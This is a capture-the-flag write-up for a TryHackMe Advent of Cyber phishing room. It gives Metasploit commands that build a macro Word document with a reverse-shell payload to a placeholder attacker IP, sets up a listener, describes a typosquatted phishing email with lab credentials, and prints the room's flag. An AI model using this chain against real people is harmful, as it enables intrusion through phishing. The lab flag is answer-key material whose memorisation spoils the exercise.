





# **TryHackMe Writeup: Day 10 - Phishing (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 10: Phishing
- **Difficulty**: Medium
- **Category**: Social Engineering
- **Objective**: Understand how phishing attacks work, learn to use macros in documents for malicious purposes, and execute a phishing attack with a macro.
- **Tools**: Metasploit Framework, MS Word, Email Client

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Phishing Attacks](#phishing-attacks)
3. [Macros in Documents](#macros-in-documents)
4. [Attack Plan](#attack-plan)
5. [Exploitation](#exploitation)
6. [Conclusion](#conclusion)

---

## **Introduction**

Phishing attacks are a prevalent form of social engineering where attackers impersonate trusted entities to trick individuals into providing sensitive information. This challenge demonstrates how attackers can use macros embedded in documents to gain unauthorized access to a victim's system.

---

## **Phishing Attacks**

Phishing involves sending emails that appear to be from legitimate sources to deceive recipients into revealing confidential information. These attacks often exploit human psychology by creating a sense of urgency or trust.

---

## **Macros in Documents**

Macros are sets of programmed instructions designed to automate tasks within software applications like MS Word. While useful for legitimate purposes, they can be exploited to execute malicious code when a document is opened.

### How Macros Work:
- Macros can be embedded in documents and executed when the document is opened.
- Attackers use this feature to deliver payloads that compromise the victim's system.

---

## **Attack Plan**

Mayor Malware's attack plan involves creating a document with a malicious macro that, when opened, connects back to his machine, granting him remote control over the victim's system.

### Steps Involved:
1. **Create a Document with a Malicious Macro**:
   - Use Metasploit Framework to generate a Word document with an embedded macro.
   - Commands:
     ```bash
     msfconsole
     set payload windows/meterpreter/reverse_tcp
     use exploit/multi/fileformat/office_word_macro
     set LHOST <ATTACKER_IP>
     set LPORT 8888
     exploit
     ```
   - The document is saved as `/root/.msf4/local/msf.docm`.

#### Screenshot:
  
*This screenshot shows the successful creation of the malicious document.*

2. **Listen for Incoming Connections**:
   - Set up Metasploit to handle incoming connections from the victim's system.
   - Commands:
     ```bash
     msfconsole
     use multi/handler
     set payload windows/meterpreter/reverse_tcp
     set LHOST <ATTACKER_IP>
     set LPORT 8888
     exploit
     ```

#### Screenshot:
  
*This screenshot shows Metasploit listening for incoming connections.*

3. **Email the Malicious Document**:
   - Send the document to the target user (Marta May Ware) using phishing techniques.
   - Use similar domain names (typosquatting) to increase credibility.
   - Email credentials:
     - Email: `info@socnas.thm`
     - Password: `MerryPhishMas!`

#### Screenshot:
  
*This screenshot shows the email sent with the malicious document attached.*

4. **Exploitation**:
   - Once the target opens the document, the macro executes, establishing a reverse shell connection with the attacker's machine.

#### Screenshot:
  
*This screenshot shows the reverse shell connection established after exploitation.*

5. **Retrieve the Flag**:
   - Navigate to the Administrator's Desktop on the victim's machine and read `flag.txt`.
   - Command:
     ```bash
     type C:\Users\Administrator\Desktop\flag.txt
     ```

#### Flag:
```
THM{PHISHING_CHRISTMAS}
```

#### Screenshot:
  
*This screenshot shows the retrieved flag from Marta's Desktop.*

---

## **Conclusion**

This challenge illustrates the dangers of phishing attacks and how macros can be exploited for malicious purposes.

### Key Takeaways:
1. Phishing remains a significant threat due to its ability to exploit human vulnerabilities.
2. Macros in documents provide a vector for executing malicious code if not properly secured.
3. Awareness and training are crucial in defending against phishing attacks.

By understanding these techniques, individuals and organizations can better protect themselves against social engineering threats.

---